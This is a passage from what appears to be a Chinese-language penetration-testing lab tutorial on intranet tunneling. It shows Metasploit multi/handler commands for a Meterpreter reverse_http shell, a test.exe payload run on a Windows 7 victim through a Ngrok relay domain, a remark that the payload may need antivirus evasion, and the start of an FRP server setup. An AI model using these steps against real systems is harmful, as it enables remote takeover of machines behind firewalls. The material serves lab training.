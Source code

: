 3、配置并监听（一旦liandy.free.idcfengye.com有流量，就发给本地192.168.80.136:4444）

```shell
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.80.137
set lport 4444
exploit
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-10.png)

4、在windows7运行test.exe

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-11.png)

一直没出结果，test运行一会儿，进程就停止了。可能需要做免杀，不过无伤大雅！

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-12.png)



- **就是通过外网服务器做个桥梁，双方都能访问到，从而建立连接。**



## 2-内网穿透 Frp 自建跳板测试-两个内网通讯上线

### 实验拓扑图

![70-1](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-1.png)





- FRP说明文档：[https://gofrp.org/docs/examples/](https://gofrp.org/docs/examples/)
- [Release v0.42.0 · fatedier/frp (github.com)](https://github.com/fatedier/frp/releases/tag/v0.42.0)
- Frp工具：开源免费，自行搭建，方便修改，成本低，使用多样化，防止隐私泄露。
- Ngrok工具使用的是别人的服务器，容易泄露隐私数据。









### 1.服务端-下载-解压-修改-启动（**云主机记得修改安全组配置出入口**）

```shell
服务器修改配置文件 frps.ini：
[common]
bind_port = 7000
启动服务端：
./frps -c ./frps.ini
```
